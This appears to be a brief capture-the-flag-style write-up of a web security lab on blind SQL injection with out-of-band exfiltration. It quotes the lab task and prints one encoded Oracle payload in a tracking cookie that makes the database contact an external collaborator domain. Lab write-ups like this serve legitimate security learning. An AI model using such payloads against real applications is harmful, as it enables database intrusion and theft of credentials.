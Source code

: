 # Blind SQL injection with out-of-band data exfiltration

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
> 
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain
> 
> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
> 
> To solve the lab, log in as the administrator user.

First i should mention i had diffilculties finding the vulnerability by using SQLMap but had more luck with Burp's Scanner

![picture 0](/assets/images/1f542cb624697cd0ab99bf852e82b49c573b9e2665a407c3e4089964bbc5a443.png)  

This is query that Burp has used:

```
Cookie: TrackingId=g3cOtQeauj4CSC6p'%7c%7c(select%20extractvalue(xmltype('%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20[%20%3c!ENTITY%20%25%20rucxp%20SYSTEM%20%22http%3a%2f%2frpkzmgpymoyy6bk563eiduduslyem4a8y1lr9g.oasti'%7c%7c'fy.com%2f%22%3e%25rucxp%3b]%3e')%2c'%2fl')%20from%20dual)%7c%7c';
```
